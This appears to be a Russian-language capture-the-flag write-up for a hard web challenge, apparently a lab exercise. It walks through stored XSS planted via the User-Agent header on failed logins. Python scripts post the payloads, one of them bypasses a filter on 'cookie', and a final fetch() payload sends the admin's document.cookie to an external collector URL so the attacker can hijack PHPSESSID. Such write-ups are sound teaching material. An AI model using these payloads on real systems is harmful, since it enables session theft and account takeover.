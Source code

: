 **level**: **Hard**
**Description**: Воображение важнее, чем знания
**IP**: 62.173.140.174:16035

Первое что видим - форма логин/регистрации
Пробуем создать аккаунт, а также понимаем что скорее всего нужно будет получить доступ к аккаунту админа.

Изучаем html код на наличие подсказок, скрытых функций и тд.

Отлично, какой-то скрытый функционал, позже мы к нему вернемся.
Исследуем далее.
Видим личный кабинет  с "failed login attempts", изучим функционал сервиса, произведем попытку логина с неправильным паролем с другого браузера или с режима инкогнито.
Попробуем XSS payload, зарегистрируем пользователя с логином:

<script>alert(1)</script>

Также пробуем зайти вне с неправильным паролем, и видим что XSS-уязвимость есть, это нам поможет захватить аккаунт пользователя запустив на нем javascript code, если сможем послать наш пейлоад.

Но изменить имя admin на пейлоад нельзя, но не будем забывать что есть еще другие поля, которые тоже скорее всего подвержены XSS-атаке.
На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent запросто!

Для этого напишем скрипт на python, он нам очень пригодится в будущем.


import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 

````python 
import requests


payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)

Cталкиваемся с проблемой
Обход фильтрации

В функции alert() нам нужно вывести document.cookie.
Попробуем сделать это с помощью переменных.

python 
import requests

payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)


1) Переходим в вкладку
2) Копируем **url**
3) Переходим по ней в google
4) Нажимаем **Poll now**, чтобы получить с сервера данные.
5) Если окошко как на фото снизу не появляется, то нажмите на "+.

Эта функция заменит нам ngrok или свой белый IP и сервер.
Копируем и вставляем в скрипт.

````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````

Отправляем.
Подставим значение PHPSESSID в наш браузер. 
